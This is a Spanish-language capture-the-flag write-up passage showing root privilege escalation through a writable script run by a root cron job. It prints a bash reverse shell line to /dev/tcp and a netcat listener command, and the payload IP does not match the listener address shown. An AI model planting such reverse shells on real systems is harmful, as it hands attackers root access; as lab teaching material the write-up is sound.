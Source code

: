 ```
boring@kral4-PC:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh

boring@kral4-PC:~$ 

```

#### Vemos los permisos y el contenido del script

- tenemos permisos de escritura sobre el
```
boring@kral4-PC:~$ ls -la /var/www/.mysecretcronjob.sh 
-rwxr-xr-x 1 boring boring 33 Jun 14  2020 /var/www/.mysecretcronjob.sh
```

#### Vemos el contenido del script
```
boring@kral4-PC:~$ cat /var/www/.mysecretcronjob.sh 
#!/bin/bash
# i will run as root
```

#### Modificamos el script para plantar un reverse shell hacia nuestra maquina kali

- vamos a la pagina de reverse shell generator y crafteamos el shell

```
>> modificamos el script
nano /var/www/.mysecretcronjob.sh 

cat /var/www/.mysecretcronjob.sh 
#!/bin/bash
# i will run as root
sh -i >& /dev/tcp/10.2.4.107/3939 0>&1

```
#### Ponemos en escucha nuestra maquina
```
nc -lnvp 3939         
listening on [any] 3939 ...
connect to [10.13.81.73] from (UNKNOWN) [10.10.76.203] 60336
sh: 0: can't access tty; job control turned off
# 

````
